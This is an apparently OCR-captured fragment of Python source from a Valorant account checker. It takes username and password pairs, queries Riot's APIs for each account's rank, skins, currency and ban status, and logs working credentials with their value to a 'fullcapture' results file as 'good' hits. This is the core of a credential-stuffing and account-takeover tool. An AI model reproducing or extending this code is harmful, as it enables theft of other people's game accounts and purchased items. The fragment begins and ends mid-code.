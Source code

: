                 last_time = "Unkown"
    #get Rank
            try:
                CheckRanked = requests.get(f"https://pd.{Region}.a.pvp.net/mmr/v1/players/{Sub}/competitiveupdates",headers=PvpNetHeaders)

                if '","Matches":[]}' in CheckRanked.text:
                    Rank = "UnRanked"
                    
                else:
                    RankID = CheckRanked.text.split('"TierAfterUpdate":')[1].split(',"')[0]
                    Rank = RankIDtoRank[RankID] 
            except:
                Rank = "Unknow"

            headers ={
            "X-Riot-Entitlements-JWT": entitlement,
            "Authorization": f"Bearer {token}"
            }

    #get Skins
            r = requests.get(f"https://pd.{Region}.a.pvp.net/store/v1/entitlements/{Sub}/e7c63390-eda7-46e0-bb7a-a6abdacd2433",headers=headers)
            response_API = requests.get('https://raw.githubusercontent.com/xharky/Valorant-list/main/Skinlist.txt')
            response = response_API.text
            skinsList = response.splitlines()
            userSkins = []
            SkinStr = ""

            skins = r.json()["Entitlements"]
            for skin in skins:
                UidToSearch = skin['ItemID']
                for item in skinsList:
                    details = item.split("|")
                    namePart = details[0]
                    idPart = details[1]
                    name = namePart.split(":")[1]
                    id = idPart.split(":")[0].lower()
                    if id == UidToSearch:
                        userSkins.append(name)
                        SkinStr += "| " + name + "\n"

            if typebanned == None:
                typebanned = "Unbanned"
                bannedtxt12 = open("results//fullcapture.txt", "a+", encoding='utf-8')
                bannedtxt12.write(f"[--------------[Valorant]--------------]\n| User&Pass: {username}:{password}\n| Banntype: {typebanned}\n| Last Game: {last_time}\n| Region: {Region}\n| Level: {AccountLevel}\n| Email Verified: {EmailVerified}\n| Creation: {result_s}\n| Rank: {Rank}\n| VP: {ValorantPoints} - RP: {Radianite}\n|-------------[Skins({len(userSkins)})]-------------]\n{SkinStr}[------------------------------------]\n\n")
                bannedtxt12.close()
                if choice == 3:
                    print(f"{Fore.GREEN}[Good]{Fore.RESET} User&Pass: {username}:{password} | Banntype: {typebanned} | Last Game: {last_time} | Region: {Region} | Level: {AccountLevel} | Email Verified: {EmailVerified} | Creation: {result_s} | Rank: {Rank} | VP: {ValorantPoints} - RP: {Radianite} [Skins({len(userSkins)})]")
                good += 1
                continue
##################choice 4#############################################
        if choice == 4:
#get Region + Accountlvl
            r2 = session.get(f"https://api.henrikdev.xyz/valorant/v1/account/{GameName}/{Tag}")
            if "region" in r2.text:
                Region = r2.json()["data"]["region"]
                AccountLevel = r2.json()["data"]["account_level"]